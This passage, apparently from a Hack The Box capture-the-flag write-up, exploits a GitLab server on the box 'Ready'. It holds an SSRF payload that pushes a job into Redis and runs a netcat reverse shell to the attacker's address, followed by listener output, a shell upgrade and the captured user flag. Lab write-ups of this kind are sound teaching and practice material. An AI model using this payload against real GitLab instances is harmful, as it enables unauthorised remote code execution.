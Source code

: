 Listening on port 1234 we get a response back from the server with the message contained within the payload, meaning that the exploit was successfully executed.

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Ready]
└─$ sudo nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.220] 39212
pippo
```

A reverse connection can be obtained in the same way upgrading the previous PoC to contain a netcat reverse shell:

```bash
<@urlencode_all>git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'| nc 10.10.14.24 1234 -e /bin/bash\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
/ssrf.git <@/urlencode_all>
```

Using the above payload, a reverse shell was obtained successfully:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Ready]
└─$ sudo nc -nlvp 1234
[sudo] password for kali:
listening on [any] 1234 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.220] 39772

id
uid=998(git) gid=998(git) groups=998(git)
which python
which python3
/opt/gitlab/embedded/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
git@gitlab:~/gitlab-rails/working$ cd /home
cd /home
git@gitlab:/home$ ls
ls
dude
git@gitlab:/home$ cd dude
cd dude
git@gitlab:/home/dude$ ls
ls
user.txt
git@gitlab:/home/dude$ cat user.txt
cat user.txt
e1e30b052b6ec0670698805d745e7682
```
